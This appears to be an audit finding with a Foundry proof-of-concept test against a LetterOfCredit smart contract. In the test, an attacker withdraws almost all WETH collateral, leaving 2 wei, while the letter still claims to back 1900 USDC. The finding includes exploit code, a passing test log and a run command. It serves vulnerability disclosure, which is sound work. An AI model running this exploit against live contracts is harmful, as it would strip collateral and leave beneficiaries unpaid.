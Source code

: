 ```
    address _collateralTokenAddress &#x3D; WETH; 
    uint256 _collateralTokenAmount &#x3D; 10**18;  // 1 WETH  &#x3D; 3000 USDC  
    address _creditedTokenAddress &#x3D; USDC;
    uint256 _creditedTokenAmount  &#x3D; 1_900*10**6; // 1900 USDC         
    uint32 _expirationTimestamp &#x3D; uint32(block.timestamp + 43200000); 
    bytes memory signature_ &#x3D; CreateSignature(PrivateKey_2, _collateralTokenAmount, WETH, attacker_nonce++);
    bytes memory _oraclePriceUpdate &#x3D;  &quot;&quot;;
    mockPriceReturnData();        
    vm.startPrank(attacker);
    loc_id &#x3D; LetterOfCredit(LetterOfCredit_proxy).createDynamicLOC(_beneficiary, _collateralTokenAddress, _collateralTokenAmount, _creditedTokenAddress,_creditedTokenAmount, _expirationTimestamp, _oraclePriceUpdate, signature_);  
    vm.stopPrank(); 
     

}
```

\`\`\`

Explanation:

The price of WETH is 3000 USDC

For this POC, the creator created the LOC with 1 WETH and the credit amount 1900 USDC

Then the creator (attacker) modify the collateral of the LOC to withdraw almost all WETH, just left 2 wei in the LOC, but still backs the CreditedTOken amount of 1900 USDC

Log: https://gist.github.com/Perseverancesuccess2021/831d502296049011991a7af9afe31abc#file-testmodifyloccollateral\_241120\_1040-log

\`\`\`Log Ran 1 test for test/testLetterOfCredit.sol:testLetterOfCredit \[PASS] testModifyLOCCollateral() (gas: 7835812) Logs: Setup Precondition for the test case Deploying LetterOfCredit Proxy contract that is VisibleBeaconProxy points to LetterOfCredit Initialize LetterOfCredit contract Approve the LetterOfCredit\_proxy as the collateralizable contract Balance of token before depositing: 1000000000000000000 Approve the CollateralVault\_contract to spend token to deposit Step: Deposit token to CollateralVault for the user Attacker to create a dynamic LOC for victim Mock Price Update for WETH/USDC Mock Price Update for WETH/USDC that is about 3000 USDC for 1 WETH Loc id 1 LOC Details: collateralTokenAddress 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2 LOC Details: collateralTokenAmount 1000000000000000000 LOC Details: creditedTokenAddress 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48 LOC Details: creditedTokenAmount 1900000000 Attacker to modify the collateral of the LOC After attack: LOC Details: collateralTokenAddress 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2 After attack: LOC Details: collateralTokenAmount 2 After attack: LOC Details: creditedTokenAddress 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48 After attack: LOC Details: creditedTokenAmount 1900000000 After attack: Balance of WETH for attacker: available 999999999999999998 After attack: Reserved of WETH for attacker: reserved 2

\`\`\`

Just download the zip file:

https://drive.google.com/file/d/1lKnqYK1Uk8Yp70CDTM\_1-J3yzx5Vjbb9/view?usp=sharing

The test code uses Foundry. Just Unzip and run the test case:

\`\`\`bash forge test --match-test testModifyLOCCollateral -vvvvv

\`\`\`
